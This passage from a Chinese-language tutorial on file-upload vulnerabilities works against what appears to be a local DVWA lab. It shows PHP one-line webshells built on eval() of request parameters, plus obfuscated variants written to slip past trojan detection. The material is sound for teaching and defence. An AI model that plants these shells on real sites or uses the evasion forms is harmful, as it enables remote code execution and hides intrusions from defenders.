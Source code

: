图 2 上传 PHP 成功

访问地址：[http://127.0.0.1/hackable/uploads/phpinfo.php](http://127.0.0.1/hackable/uploads/phpinfo.php)，可以看到 phpinfo() 已经被执行成功。

![图片3.png](https://s0.lgstatic.com/i/image/M00/91/7B/Ciqc1GAOpSaARCD_AALlCWvyDKc931.png)

图 3 解析成功的 phpinfo

就如果我们上传的 PHP 是更多恶意功能的脚本，就可以实现更多攻击行为。

### 利用漏洞上传 Webshell

#### 1.一句话木马

提到 Webshell 木马，就不得不提下“一句话木马”。PHP 一句话木马可以通过 GET、POST、COOKIE 这几种方式提交数据，然后将数据传递给代码/命令执行函数，从而实现任意代码/命令执行。

比如以下这个一句话木马：

```
<?php eval(@$_GET['a']); ?>
```

将上述代码保存为 eval.php 并上传至网站，然后构造请求：

利用一句话木马成功执行 phpinfo() 函数。

![图片4.png](https://s0.lgstatic.com/i/image/M00/91/86/CgqCHmAOpTmAfY3IAARME2KRqaY914.png)

图 4 利用一句话木马执行代码

有时为了绕过木马检测，攻击者会对一句话进行混淆变形，比如下面几句。

-   **利用字符串拼接执行函数名：**
    

```
<?php
$a="e"."v";
$b="a"."l";
$c=$a.$b;
$c($_POST['a']);
?>
```

-   **通过 base64\_decode 编码执行函数名：**
    

```
<?php
$a=base64_decode("ZXZhbA==")
$a($_POST['a']);
?>
```

-   **由 GET 参数指定函数名和参数：**
    

```
<?php $_GET['a']($_GET['b']);  ?>
```
